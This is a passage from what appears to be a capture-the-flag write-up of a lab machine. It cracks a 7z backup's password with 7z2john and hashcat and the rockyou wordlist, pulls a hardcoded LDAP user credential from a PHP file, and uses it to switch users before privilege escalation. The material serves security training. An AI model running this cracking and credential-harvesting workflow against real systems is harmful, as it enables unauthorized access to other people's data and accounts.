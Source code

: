         
    Enter password (will not be echoed):



I can crack that password using `7z2john.pl` and `hashcat`:



    root@kali# /opt/john/run/7z2john.pl backup.7z > backup.hash





    $ hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
    $ cat backup.cracked
    delete



### Find Creds

Now I can see the contents, which is a backup of the web directories:



    root@kali# ls -l backup
    total 21
    -rwxrwx--- 1 root vboxsf 4218 Jun 13  2018 index.php
    -rwxrwx--- 1 root vboxsf 1764 Jun 13  2018 info.php
    -rwxrwx--- 1 root vboxsf  360 Jun 10  2018 reset.php
    -rwxrwx--- 1 root vboxsf 2400 Jun 14  2018 status.php
    -rwxrwx--- 1 root vboxsf 1528 Jun 13  2018 user.php



In `status.php`, I'll find creds for ldapuser1 (I'll look more at the
script in [Beyond Root](#which-ldap-creds--statusphp)):



    $username = 'ldapuser1';
    $password = 'f3ca9d298a553da117442deeb6fa932d';



### su

Now I can `su` to get a shell as ldapuser1:



    [ldapuser2@lightweight ~]$ su ldapuser1
    Password: 
    [ldapuser1@lightweight ldapuser2]$ id
    uid=1000(ldapuser1) gid=1000(ldapuser1) groups=1000(ldapuser1) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



## Privesc: ldapuser1 --\> root

### Enumeration
